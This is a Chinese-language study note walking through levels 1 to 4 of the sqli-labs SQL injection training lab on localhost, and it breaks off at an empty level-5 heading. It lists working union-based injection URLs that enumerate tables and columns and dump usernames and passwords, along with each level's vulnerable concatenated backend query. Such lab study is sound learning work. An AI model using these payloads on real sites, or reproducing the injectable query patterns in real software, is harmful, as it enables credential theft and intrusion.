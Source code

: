 # sql注入

## sqli-labs

直接通过靶场 [sqli-labs](https://github.com/juananpe/sqli-lab) （使用`Docker`构建）来学习。参考[详细sqli-labs（1-65）通关讲解](https://blog.csdn.net/dreamthe/article/details/123795302)

::: info mysql
该靶场使用`mysql`作为数据库，`mysql`数据库5.0以上版本自带一个叫 `information_schema` 的数据库，该数据库下面有两个表 `tables` 和 `columns` 。
其中 `tables` 里的 `table_name` 字段和 `table_schema` 字段存放了所有表以及表名所在的数据库名。
而 `columns` 里的 `column_name` 字段、 `table_name` 字段和 `table_schema` 字段存放了所有列名以及其所属的表名和数据库名。
:::

### less-1

- `http://localhost:8888/Less-1/?id=1'` 出现报错信息 `for the right syntax to use near ''1'' LIMIT 0,1' at line 1`

- `http://localhost:8888/Less-1/?id=1' order by 4 --+` 通过增加数字来确定表的列数

- `http://localhost:8888/Less-1/?id=-1'union select 1,2,3 --+` 爆出回显位

- `http://localhost:8888/Less-1/?id=-1'union select 1,database(),version() --+` 获取数据库名和版本号

- `http://localhost:8888/Less-1/?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+` 查询数据库`security`下的表名

- `http://localhost:8888/Less-1/?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+` 查询表`users`下的列名

- `http://localhost:8888/Less-1/?id=-1'union select 1,group_concat(username),group_concat(password) from users --+` 查询表`users`内的用户名及密码

其后端 `sql` 查询语句 `$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`

### less-2

- `http://localhost:8888/Less-1/?id=1'` 出现报错信息 `for the right syntax to use near '' LIMIT 0,1' at line 1`
- `http://localhost:8888/Less-2/?id=2 order by 4`
- `http://localhost:8888/Less-2/?id=-1 union select 1,2,3`
- `http://localhost:8888/Less-2/?id=-1 union select 1,group_concat(username),group_concat(password) from users`

其后端 `sql` 查询语句 `$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";`

### less-3

- `http://localhost:8888/Less-3/?id=1'` 出现报错信息 `for the right syntax to use near ''1'') LIMIT 0,1' at line 1`
- `http://localhost:8888/Less-3/?id=1') order by 4 --+`
- `http://localhost:8888/Less-3/?id=-1') union select 1,2,3 --+`
- `http://localhost:8888/Less-3/?id=-1') union select 1,group_concat(username),group_concat(password) from users --+`

其后端 `sql` 查询语句 `$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`

### less-4

- `http://localhost:8888/Less-4/?id=1"` 出现报错信息 `for the right syntax to use near '"1"") LIMIT 0,1' at line 1`
- `http://localhost:8888/Less-4/?id=1") order by 4 --+`
- `http://localhost:8888/Less-4/?id=-1") union select 1,2,3 --+`
- `http://localhost:8888/Less-4/?id=-1") union select 1,group_concat(username),group_concat(password) from users --+`

其后端 `sql` 查询语句
```php
$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
```

### less-5




